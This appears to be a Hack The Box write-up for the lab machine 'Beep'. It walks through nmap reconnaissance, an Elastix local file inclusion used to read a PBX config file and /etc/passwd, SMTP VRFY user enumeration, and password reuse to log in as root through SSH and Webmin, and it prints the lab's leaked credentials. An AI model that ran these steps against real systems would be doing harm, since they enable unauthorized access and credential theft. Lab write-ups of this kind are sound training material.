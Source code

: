 ## --------------->> Beep <<-----------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.7 -p-
------

    Nmap scan report for 10.10.10.7
    Host is up (0.38s latency).
    Not shown: 65519 closed ports
    PORT      STATE SERVICE    VERSION
    22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
    |_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
    25/tcp    open  smtp       Postfix smtpd
    |_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
    80/tcp    open  http       Apache httpd 2.2.3
    |_http-server-header: Apache/2.2.3 (CentOS)
    |_http-title: Did not follow redirect to https://10.10.10.7/
    110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
    |_pop3-capabilities: EXPIRE(NEVER) TOP APOP AUTH-RESP-CODE UIDL IMPLEMENTATION(Cyrus POP3 server v2) USER RESP-CODES LOGIN-DELAY(0) PIPELINING STLS
    111/tcp   open  rpcbind    2 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2            111/tcp   rpcbind
    |   100000  2            111/udp   rpcbind
    |   100024  1            875/udp   status
    |_  100024  1            878/tcp   status
    143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
    |_imap-capabilities: Completed LISTEXT OK SORT CHILDREN MAILBOX-REFERRALS ACL ID NO URLAUTHA0001 X-NETSCAPE IDLE ATOMIC LIST-SUBSCRIBED RIGHTS=kxte IMAP4rev1 CATENATE QUOTA CONDSTORE UIDPLUS ANNOTATEMORE MULTIAPPEND THREAD=ORDEREDSUBJECT LITERAL+ NAMESPACE SORT=MODSEQ THREAD=REFERENCES BINARY STARTTLS UNSELECT IMAP4 RENAME
    443/tcp   open  ssl/https?
    | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
    | Not valid before: 2017-04-07T08:22:08
    |_Not valid after:  2018-04-07T08:22:08
    |_ssl-date: 2021-08-14T15:03:44+00:00; -1s from scanner time.
    878/tcp   open  status     1 (RPC #100024)
    993/tcp   open  ssl/imap   Cyrus imapd
    |_imap-capabilities: CAPABILITY
    995/tcp   open  pop3       Cyrus pop3d
    3306/tcp  open  mysql      MySQL (unauthorized)
    |_ssl-cert: ERROR: Script execution failed (use -d to debug)
    |_ssl-date: ERROR: Script execution failed (use -d to debug)
    |_sslv2: ERROR: Script execution failed (use -d to debug)
    |_tls-alpn: ERROR: Script execution failed (use -d to debug)
    |_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
    4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
    4445/tcp  open  upnotifyp?
    4559/tcp  open  hylafax    HylaFAX 4.3.10
    5038/tcp  open  asterisk   Asterisk Call Manager 1.1
    10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
    |_http-server-header: MiniServ/1.570
    |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
    Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

    Host script results:
    |_clock-skew: -1s

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 1631.55 seconds

// Navigating to http://10.10.10.7/ redirect us to HTTPS(port 443) https://10.10.10.7/ , its a login page of elastix(private branch exchange software)

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/1.png)

// Also we got another login page on port 10000 for webmin service (we will save that for later)

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/2.png)

// Searching for exploit to elastix service in [ExploitDB](https://www.exploit-db.com/) found me a 'Local file inclusion vulnerability'

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/6.png)

// Looking at the vulnerabillity help to understand the picture

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/5.png)

// Lets try that !

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/3.png)

// It worked !, since the exploit suggested a config file for the PBX, we have got some potential passwords

    # AMPDBPASS=amp109
    AMPDBPASS=jEhdIekWmdjE
    AMPENGINE=asterisk
    #AMPMGRPASS=amp111

// Lets try to get passwd file

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/4.png)

// Also worked !, So we got users 

    sync
    shutdown
    halt
    news
    mysql
    cyrus
    asterisk
    spamfilter
    fanis

// Lets save them to a file and since we got SMTP service running

// we can try to connect this service with telnet and verify the user we got

    $ telnet 10.10.10.7 25
------

    Trying 10.10.10.7...
    Connected to 10.10.10.7.
    Escape character is '^]'.

// command 'EHLO' with anything just shows options

    EHLO W0lfysec
    250-beep.localdomain
    250-PIPELINING
    250-SIZE 10240000
    250-VRFY
    250-ETRN
    250-ENHANCEDSTATUSCODES
    250-8BITMIME
    250 DSN

// command 'VRFY' will verify if user mail exist (status: 550-NOT exist, 252-Exist)

    VRFY W0lfysec@localhost
    550 5.1.1 <r4r3@localhost>: Recipient address rejected: User unknown in local recipient table
    VRFY halt@localhost
    252 2.0.0 halt@localhost
    VRFY fanis
    252 2.0.0 fanis

// Since we got verify users and we got some passes and SSH service open

// we could try to connect to machine(credential root:jEhdIekWmdjE worked!) but it seems to easy

// Let go back to the webmin login page at https://10.10.10.7:10000/ and try to login as root : jEhdIekWmdjE

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/7.png)

// Searching the app a little bit i foud a command shell option at others option

// since we loged in as root we can get the flags !

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/8.png)
